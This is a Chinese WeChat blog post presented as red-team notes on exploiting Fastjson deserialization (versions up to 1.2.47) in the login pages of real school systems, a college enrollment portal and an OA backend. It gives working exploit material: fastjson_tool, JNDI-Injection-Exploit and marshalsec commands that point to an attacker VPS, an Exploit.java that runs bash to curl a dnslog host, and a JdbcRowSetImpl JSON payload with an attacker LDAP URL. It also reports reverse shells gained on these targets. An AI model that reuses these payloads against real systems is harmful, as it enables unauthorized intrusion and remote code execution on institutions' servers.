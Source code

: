 #  红队评估 | 关于我在实战中遇到的Fastjson

原创 yourposec  [ 不懂安全的校长 ](javascript:void\(0\);)

**不懂安全的校长** ![]()

微信号 sectip

功能介绍 校长不懂安全，总是发些奇奇怪怪的笔记！

____

__

收录于话题

## 0x01 前言

Hvv五件套: Log4j，Shiro，SpringBoot，Fastjson，弱口令

  

推荐一个论坛社区，感觉文章质量挺不错的

    
    
    https://www.cnsuc.net/  
    

## 0x02 案例一: 某职业学院报名登录入口存在fastjson

某学校官网看到一个高职扩招报名入口，点击进去,输入账号密码

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001814.png)

后无意看到burp插件扫出改登录口存在fastjson漏洞。

一般当我们看到利用链是用小于或登录1.2.47的利用链的时候这个漏洞就是稳稳存在的，如果是HTTP请求利用链的话，只能说明改网站用的是fastjson框架，但不一定是fastjson反序列化漏洞

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001816.png)

使用fastjson_tool去构造fastjson1.2.24-1.2.47左右的利用链 java -jar fastjson_tool.jar
fastjson.HLDAPServeer vps_ip 8080 "command" 然后可随意使用某条利用链后使用利用链请求，成功反弹shell

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001817.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001823.png)

## 0x03 案例二: 某学院OA系统fastjson

某学校OA后台登录框中测试，登录入口存在fastjson<=1.2.47的反序列化漏洞

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001826.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001828.png)

通过利用链可看出该fastjson版本在1.2.47左右,这里我们直接使用

    
    
    java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C '[command]ping dnslog.cn' -A vps_ip  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001831.png)

这里选择的利用链要和我们服务器对应得java版本一样,这里选择jdk1.8版本得进行测试ldap和rmi，并无任意返回

后面就进入了沉思阶段，想着使用飞鸿得JNID回显利用链进行反弹，然后得然后，github突然打不开了，后发现jdk1.8和jdk1.7之间还有个spring1.2.x
和tomcat 8版本左右得利用链，想着死马当活马医算了，结果还真rce了（当然飞鸿师傅的JNDI注入回显利用工具也是可以的）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001834.png)

使用该工具去反弹shell得时候我们需要去java.lang网站去进行base64编码

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001837.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001838.png)

成功反弹shell

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001841.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001843.png)

## 0x04 案例三

同样也是在某次后台登陆时，发现请求包时json格式，然后立马去看看工具里面有无fastjson成功记录，结果是有的，这种http请求利用链一般都是1.2.24反序化得利用链。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001845.png)

但是看到http请求利用链心就凉了一大截，如果是HTTP请求利用链的话，之能说明改网站用的是fastjson框架，但不一定存在fastjson反序列化漏洞，这里一开始是使用了fastjson_tools和JNDI-
Injection-Exploit-1.0-SNAPSHOT-all.jar都无请求成功结果。后面使用最古老的方式，先构造Exploit.java文件。

    
    
    import java.io.BufferedReader;  
    import java.io.InputStream;  
    import java.io.InputStreamReader;  
      
    public class Exploit{  
        public Exploit() throws Exception {  
            Process p = Runtime.getRuntime().exec(new String[]{"bash", "-c", "curl omqq0z.dnslog.cn"});  
            InputStream is = p.getInputStream();  
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));  
      
            String line;  
            while((line = reader.readLine()) != null) {  
                System.out.println(line);  
            }  
      
            p.waitFor();  
            is.close();  
            reader.close();  
            p.destroy();  
        }  
      
        public static void main(String[] args) throws Exception {  
        }  
    }  
    

 **附加：利用链,自己也可以去网上收集利用链**

    
    
    {  
      
        "b":{  
      
            "@type":"com.sun.rowset.JdbcRowSetImpl",  
      
            "dataSourceName":"ldap://ip:9999/Exploit",  
      
            "autoCommit":true  
      
        }  
      
    }  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001848.png)

然后使用javac Exploit.java为一个class文件，同时在同目录下开一个http服务（因为懒所以就没有截图了）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001851.png)

看网上都是使用RMI格式进行rce，这里我们也是首先尝试RMI

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://vps_ip/8000/#Exploit" 9999  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001854.png)

RMI服务这边有回显，但是http服务那边无请求

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001856.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001859.png)

使用LDAP进行请求rce，ldap服务这边有请求回显、http服务有请求回显，命令执行成功。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001902.png)

构造bash反弹，成功getshell (工具githu上全有，自己所搜就行)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001905.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001908.png)

**从现在开始，星球定价150元！日后只有慢慢涨没有跌价！现在入股不亏，持续输出原创文章，还是小有干货的！**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220220001911.png)  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

红队评估 | 关于我在实战中遇到的Fastjson

最多200字，当前共字

__

发送中

[写留言](javascript:;)

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

